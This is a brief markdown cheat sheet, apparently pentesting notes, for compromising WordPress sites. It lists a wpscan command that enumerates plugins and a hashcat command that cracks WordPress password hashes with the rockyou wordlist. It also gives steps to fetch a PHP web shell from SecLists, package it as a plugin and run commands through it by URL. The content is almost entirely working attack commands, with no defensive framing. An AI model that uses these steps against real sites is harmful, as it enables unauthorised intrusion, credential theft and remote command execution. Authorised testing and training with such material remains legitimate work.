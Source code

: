 # Wordpress

## wpscan

```
wpscan --url <url> --enumerate ap --api-token <api-token>
```

## hashcat
```
hashcat -m 400 -a 0 -o cracked.txt  hash.txt /usr/share/wordlists/rockyou.txt
```

## Shell via Plugin
```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Web-Shells/WordPress/plugin-shell.php
zip plugin-shell.zip plugin-shell.php
http://<url>/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```
